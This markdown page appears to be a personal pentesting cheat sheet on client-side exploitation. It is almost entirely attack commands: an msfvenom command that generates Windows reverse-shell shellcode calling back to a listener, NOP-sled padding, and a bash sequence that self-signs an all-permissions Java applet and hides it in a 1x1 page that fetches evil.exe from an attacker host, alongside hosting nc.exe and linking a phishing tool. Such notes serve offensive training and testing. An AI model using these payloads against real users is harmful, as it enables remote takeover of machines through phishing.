 ```yaml
---
title: Client Side
category: Exploitation
order: 101
---
```


> **Phishing**

* [My Phishing Tool](https://github.com/BinaryExile/Scripts/tree/master/Phishing)

> **Browser Exploit**

* Passive: Use https://extremetracking.com/?free to determine user agent
* Active: Call or Phishing
* Download exploit
* service apache2 start
* Generate new shellcode that's the same size or smaller:<br> <code> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none </code>
* Pad as needed with <code> %u9090</code>

> **Signed Java App**

{% highlight bash %}
javac -source 1.7 -target 1.7 Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jar cvf Java.jar Java.class
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/nc.exe
{% endhighlight %}

* [java.java](https://raw.githubusercontent.com/BinaryExile/Scripts/master/exploits/client%20side/java.java)
